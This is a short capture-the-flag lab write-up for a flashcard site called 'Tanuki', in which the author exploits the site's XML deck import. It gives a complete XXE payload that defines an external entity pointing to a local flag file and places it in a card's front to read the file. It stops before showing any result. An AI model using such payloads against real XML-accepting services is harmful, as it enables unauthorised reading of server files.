


# Tanuki Challange 27-09-26 (XXE)

In this lab, there was a "Tanuki" site for learning decks 

First, i take a look to Import Deck and see we can upload XML Files



Maybe we can get the flag if we use *XXE*

I try the following payload 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ELEMENT test ANY >
    <!ENTITY xxe SYSTEM "file://flag.txt" >]>
        <deck>
            <name>Solution Deck</name>
                <cards>
                    <card>
                        <front>&xxe;</front>
                        <back>Look at the flag</back>
                    </card>
                </cards>
        </deck>
```

Now, let's take a look at the cards
